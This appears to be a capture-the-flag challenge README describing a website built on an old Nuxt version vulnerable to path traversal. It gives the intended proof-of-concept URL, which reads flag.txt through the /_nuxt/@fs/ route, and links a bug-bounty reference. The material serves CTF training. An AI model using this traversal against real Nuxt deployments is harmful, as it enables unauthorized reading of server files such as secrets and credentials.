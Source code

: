 # A simple website

The website using old version of nuxt framework that vulnerable to path traversal

## Intended PoC:

http://ctf.tcp1p.com:45681/_nuxt/@fs/flag.txt

## Reference:
* https://huntr.dev/bounties/4849af83-450c-435e-bc0b-71705f5be440/